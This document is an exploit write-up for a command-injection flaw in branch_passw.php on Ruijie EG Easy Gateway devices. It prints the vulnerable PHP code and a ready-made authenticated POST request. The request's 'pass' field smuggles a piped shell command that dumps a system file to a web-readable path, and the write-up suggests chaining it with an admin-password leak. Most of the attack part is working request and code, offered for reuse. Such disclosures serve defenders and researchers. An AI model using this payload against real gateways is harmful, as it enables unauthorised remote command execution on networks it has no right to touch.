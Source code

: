 # Ruijie EG Easy Gateway branch_passw.php remote command execution

## Vulnerability Description

Ruijie EG Easy Gateway branch_passw.php has a command execution vulnerability, cooperate with Ruijie EG Easy Gateway Administrator account password leakage vulnerability to reach RCE control server

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Ruijie EG Easy Gateway</span>

## Network surveying and mapping



## Vulnerability reappears

First log in to the background (can combine Ruijie EG Easy Gateway administrator account password leakage vulnerability)

Vulnerability file branch_passw.php

```php
<?php

/**
 * 分支密码的统一管理
 */
define('IN', true);     //定位该文件是入口文件
define('DS', DIRECTORY_SEPARATOR);  //定义系统目录分隔符
define('AROOT', dirname(__FILE__) . DS);    //定义入口所在的目录
include_once(dirname(dirname(__FILE__)) . DS . 'mvc' . DS . 'controller' . DS . 'core.controller.php');

class defaultController extends coreController {

    private $filename;
    private $cli = "evpn-server config all-clients file \"/data/evpn/cfg_pwd.text\"";

    function __construct() {
        parent::__construct();
        $this->filename = DS . "data" . DS . "evpn" . DS . "cfg_pwd.text";
    }

    /**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
    
    /**
     * 关闭集中控制功能
     */
    function closeAction(){
        evpnShell("/usr/local/evpn/server/cfg_pass.sh disable");
    }

    /**
     * 获取分支密码
     */
    function getAction() {
        $command = "/usr/local/evpn/server/echo_pass.sh";
        $content = [];
        exec(EscapeShellCmd($command), $content);
        $data = array("status" => true,
            "data" => isset($content[0]) && $content[0] === "" ? "" : $content);
        json_echo($data);
    }
    
    /**
     * 获取分支密码设置列表
     */
    function listAction(){
        $province = p("province");
        $city = p("city");
        $district = p("district");
        $shell = "/usr/local/evpn/server/sh_clients_pass.sh";
        if($province !== FALSE && $province != ""){
            $shell .= " province ".iconv("UTF-8", "GB2312//IGNORE", $province);
        }
        if($city !== FALSE && $city != ""){
            $shell .= " city ".iconv("UTF-8", "GB2312//IGNORE", $city);
        }
        if($district !== FALSE && $district != ""){
            $shell .= " district ".iconv("UTF-8", "GB2312//IGNORE", $district);
        }
        header("Content-type: text/html;charset=gbk");
        header("Cache-Control: no-cache, must-revalidate");
        header("Pragma: no-cache");
        echo `$shell`;
    }

}

include_once dirname(dirname(__FILE__)) . '/init.php';     //mvc架构初始化
```



The vulnerability part



```php
/**
     * 设置分支设备的密码
     * @param string post(pass) 分支密码
     */
    public function setAction() {
        $pass = p("pass");
        if ($pass == FALSE) {
            json_echo(false);
            return;
        }
        $command = "/usr/local/evpn/server/cfg_pass.sh config " . $pass;
        evpnShell($command);
    }
```



The `&pass` variable is controllable and the command is executed without filtering. Use `|` to bypass it



Send a request packet



```plain
POST /itbox_pi/branch_passw.php?a=set HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 41
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=52222egp72ilkpf2de7qbrigk3;user=admin;
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

pass=|cat /etc/psswd>../test_test.txt
```



Visit again



```plain
http://xxx.xxx.xxx.xxx/test_test.txt
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/ruijie-29.png)



## 